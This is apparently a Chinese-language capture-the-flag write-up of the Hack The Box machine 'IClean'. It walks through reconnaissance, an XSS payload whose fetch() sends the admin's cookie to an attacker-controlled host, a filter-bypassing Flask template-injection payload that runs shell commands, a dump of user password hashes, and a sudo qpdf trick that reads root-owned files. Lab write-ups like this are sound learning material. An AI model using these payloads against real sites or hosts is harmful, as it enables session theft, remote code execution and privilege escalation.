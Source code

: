 # \[level:Medium] IClean

## 一 、信息收集

| 靶机信息 |                       |
| ---- | --------------------- |
| IP   | 10.129.99.246         |
| 域名   | http://capiclean.htb/ |

### 1.1 nmap扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ nmap -Pn 10.129.99.246
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-10 22:50 CST
Nmap scan report for capiclean.htb (10.129.99.246)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 122.72 seconds
```

### 1.2 url目录扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ dirsearch -u http://capiclean.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/a1ertx5s/reports/http_capiclean.htb/__24-04-10_23-08-03.txt

Target: http://capiclean.htb/

[23:08:03] Starting: 
[23:09:40] 200 -    5KB - /about
[23:12:01] 302 -  189B  - /dashboard  ->  /
[23:13:22] 200 -    2KB - /login
[23:13:25] 302 -  189B  - /logout  ->  /
[23:14:45] 403 -  278B  - /server-status
[23:14:46] 403 -  278B  - /server-status/
[23:14:46] 200 -    8KB - /services

Task Completed
```

扫描结果没啥用, 就一个dashboard值得关注.

### 1.3 指纹信息

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

开发框架是Flask,猜测漏洞为模板注入.

### 二、渗透过程

### 2.1 XSS获取管理员cookie

随便逛逛可以发现有一个quote页面,页面可以给管理员留言,尝试是否存在xss,能否利用xss获取管理员cookie.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>burp suite 抓包</p></figcaption></figure>

其中exp是url encode过的.

```html
<img src=x onerror=fetch("http://hackIP:Port/?cookie="+document.cookie);>
```

可以使用python3的http server进行cookie的捕获,结果如下

```
┌──(a1ertx5s㉿kali)-[~]
└─$ python3 -m http.server 959
Serving HTTP on 0.0.0.0 port 959 (http://0.0.0.0:959/) ...
10.129.99.246 - - [10/Apr/2024 23:21:57] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhaHiw.vNyGcFEurcPrFcHAjqEJsNVRkFo HTTP/1.1" 200 -
```

成功获取cookie, 将cookie加入到header中,再去访问dashboard.

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

成功进入到dashboard页面.

### 2.2 Flask SSTI 反弹shell

开发框架是Flask,猜测漏洞为模板注入.

在Generate invoice下生成一个id,然后到Gnerate QR下尝试.

<figure><img src="../.gitbook/assets/4ac119a9433cd746fa3d45d2e9b96d7.png" alt=""><figcaption></figcaption></figure>

可以发现qr\_link字段存在模板注入.一般的模板注入在这里是失效的,应该是存在黑名单之类的过滤手段,这里使用resquet和attr组合进行绕过,exp如下:

```
{{ request | attr("application") | attr("\x5f\x5fglobals\x5f\x5f") | attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os") | attr("popen")("uname -a") | attr("read")() }}
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

接下来就利用这个注入点反弹shell,需要进行url encode.

<figure><img src="../.gitbook/assets/0f9992e7611a8efaed1c3810592ce7c.png" alt=""><figcaption></figcaption></figure>

成功获取www-data权限,查看app.py文件,发现数据库相关信息.

<figure><img src="../.gitbook/assets/86edeef6eb3de119a224042dbc60d82.png" alt=""><figcaption></figcaption></figure>

连接数据库,在user表下发现账号以及口令的hash值.

```
select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

爆破得出结果, 密码是 simple and clean

<figure><img src="../.gitbook/assets/3018cd77605f4215a32ef3b030ea3b7.png" alt=""><figcaption></figcaption></figure>

ssh 登录,获得user flag.

<figure><img src="../.gitbook/assets/665323368e4946e5b19a4929230adc8.png" alt=""><figcaption></figcaption></figure>

### 2.3 sudo提权

sudo -l 查看具有root权限的指令.

<figure><img src="../.gitbook/assets/da89770f5e2ae6a35555b34f6f475b0.png" alt=""><figcaption></figcaption></figure>

有一个qpdf程序有root权限,去google一下这个指令.

存在以下选项,可以向一个文件中添加附件.

<figure><img src="../.gitbook/assets/0ef87c4bf94c4c1850455af7783470a.png" alt=""><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --empty ./root.txt --add-attachment /root/root.txt --
```

<figure><img src="../.gitbook/assets/978937122f00994d9d0ab5d9095b71f.png" alt=""><figcaption></figcaption></figure>

发现其中root.txt的部分出现了乱码.

再度查看qpdf的文档,发现存在qdf指令,可以使pdf可用text进行查看.

<figure><img src="../.gitbook/assets/5e57302ba3ad4d49b2f7333bb0b81d5.png" alt=""><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --qdf --empty ./root.txt --add-attachment /root/root.txt  --
```

成功获取root flag.

<figure><img src="../.gitbook/assets/d6534a98f4e0b5154c3cb0b223947ea.png" alt=""><figcaption></figcaption></figure>
